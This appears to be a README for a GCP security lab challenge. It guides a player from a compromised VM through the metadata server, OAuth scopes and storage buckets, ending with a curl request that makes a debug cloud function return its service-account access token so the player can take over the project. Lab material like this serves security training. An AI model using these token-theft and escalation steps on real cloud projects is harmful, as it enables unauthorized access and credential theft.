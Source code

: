 # Challenge 4: Invoking answers

## Introduction

You can control a compute instance in the project! Let's find out which permissions this instance has in GCP.  
Your compute instance has a GCP service account assigned to it, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  
#####
    gcloud auth list


> **Background Info:**  
> Resources such as compute VMs use the Google metadata server endpoint to get an access token for their assigned service account.  
> As you now have access to the compute VM, you could also query the metadata server and retrieve information such as the VMs service account or its access token. For example you can use this endpoint to get information about the VMs service account:  
> #####
>     curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"
> 
> As the compute instance has gcloud installed, using `gcloud auth list` or `gcloud auth print-access-token` is more convenient though.  


The service account of this compute engine is the default compute service account: `<project-nr>-compute@developer.gserviceaccount.com`.  
A very powerful account in GCP! By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
#####
    gcloud compute instances list
"Request had insufficient authentication scopes". That is disappointing.  
You can list your OAuth access scopes with this command:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

That last access scope looks promising. The access scope `devstorage.read_only` allows you to read all storage buckets in the project.  

## Your Goal

**Invoke and exploit another resource to find a powerful access token allowing you to gain control over the project**

## Useful commands and tools:
- the compute engine also has gcloud installed
- the compute engine has a script that could be helpful
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

## Hints

<details>
  <summary>Hint 1</summary>

  List all storage buckets in the project. You can run the `gsutil` commands from the compute VM:  
  #####
    gsutil ls 
  There is an additional bucket that you couldn't access before. You can list and read the content on this bucket:
  #####
    gsutil ls gs://cloud-function-bucket-challenge4
  #####
    gsutil cat gs://cloud-function-bucket-challenge4/main.py
  A script on the compute engine can also give you more hints on how to use the new resource you found.

</details>

<details>
  <summary>Hint 2</summary>

  A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. As you have read access to the buckets, you can investigate what this function does.  
  A script in Alice's home directory on the compute VM tells you how to invoke the function.  
  Someone made it return information from the metadata server for debugging purposes...

</details>

<details>
  <summary>Hint 3</summary>
    
  The script on the compute VM invokes the function. You can modify that request and ask the function to return its access token instead of its service account email:
  #####
    curl -s -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

</details>

## First stage of compromise achieved!

When you completed the challenge read [here](../extras/first-stage-compromised.md) what your new access token can do.
